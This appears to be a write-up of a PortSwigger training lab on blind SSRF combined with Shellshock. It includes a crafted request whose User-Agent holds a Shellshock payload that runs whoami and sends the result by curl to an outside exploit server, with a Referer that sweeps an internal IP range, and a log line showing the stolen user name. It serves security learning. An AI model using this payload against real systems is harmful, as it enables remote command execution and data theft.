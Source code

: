 # Blind SSRF with Shellshock exploitation

[Lab in PortSwigger](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation)

## Definition
Simply identifying a blind SSRF vulnerability that can trigger out-of-band HTTP requests doesn't in itself provide a route to exploitability. Since you cannot view the response from the back-end request, the behavior can't be used to explore content on systems that the application server can reach. However, it can still be leveraged to probe for other vulnerabilities on the server itself or on other back-end systems. You can blindly sweep the internal IP address space, sending payloads designed to detect well-known vulnerabilities. If those payloads also employ blind out-of-band techniques, then you might uncover a critical vulnerability on an unpatched internal server. 

## Notes
This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded. 

To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the 192.168.0.X range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

**Shellshock**  
[Overview from OWASP](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf)
[Inside Shellshock: How hackers are using it to exploit systems](https://blog.cloudflare.com/inside-shellshock/)

**SSRF Ping Back Test**
```http
GET /someendpoint?param=foo HTTP/1.1
...
User-Agent: http://my-pingback-url.com
Referer: http://my-pingback-url.com
```

**Crafted Http Request**
```http
GET /product?productId=1 HTTP/1.1
Host: acb71f331fba00b7c0361fc9003e00dd.web-security-academy.net
Cookie: session=CXQanvV7Qzqks0eM86BBSohCpbL82FmH
User-Agent: () { :; }; /usr/bin/curl https://exploit-accf1fdb1f1d88d4c04385840163005c.web-security-academy.net/exploit?$(whoami)
Referer: http://192.168.0.§X§:8080
```

**User Name**
```log
"GET /exploit?peter-EgNv7o HTTP/1.1" 200 "User-Agent: curl/7.68.0"
```

## Key Words
> bash, shellshock, blind ssrf
